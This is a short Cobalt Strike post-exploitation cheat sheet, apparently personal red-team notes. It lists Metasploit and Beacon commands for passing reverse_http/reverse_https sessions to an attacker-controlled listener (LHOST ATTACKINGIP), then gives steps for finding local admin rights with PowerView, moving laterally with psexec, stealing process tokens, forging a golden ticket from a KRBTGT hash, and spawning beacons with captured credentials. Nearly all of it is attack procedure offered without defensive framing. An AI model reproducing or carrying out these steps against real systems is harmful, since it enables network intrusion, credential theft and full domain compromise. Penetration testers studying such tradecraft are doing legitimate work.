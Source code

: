 # Cobalt Strike



Move a meterpreter / metasploit session to Cobalt

\(Spawn Beacon from Meterpreter\)

```text
in Cobalt
setup a listener
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of Cobalt Strike Listenter]
set LPORT 80
set session 1
set DisablePayloadHandler True
exploit (-j)
```

Move a Cobalt beacon to Metasploit

\(Spawn Meterpreter from Beacon\)

```text
in Metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST ATTACKINGIP
set LPORT 443
set ExitOnSession False
exploit (-j)

in Cobalt
setup a foreign listener
windows/foreign/reverse_https
Right Click Beacon-->Spawn-->Select foreign beacon

Note: Cobalt will spawn an x86 shell, for any post exploit modules make sure to migrate to an x64 process like svchost
if applicable
```

View targets available from Initial Target

```text
Right Click Target --> Explore -->Net View
or
Net computers
net dclist
```

Find where we are a local admin

```text
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon: Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```text
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```text
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```text
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```text
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: #shell dir \\[DC]\C$
```

Beacon as another user with creds

```text
Right Click Beacon-->SpawnAs-->enter creds
note for domain account enter domain but for local account enter "." in the domain field
```

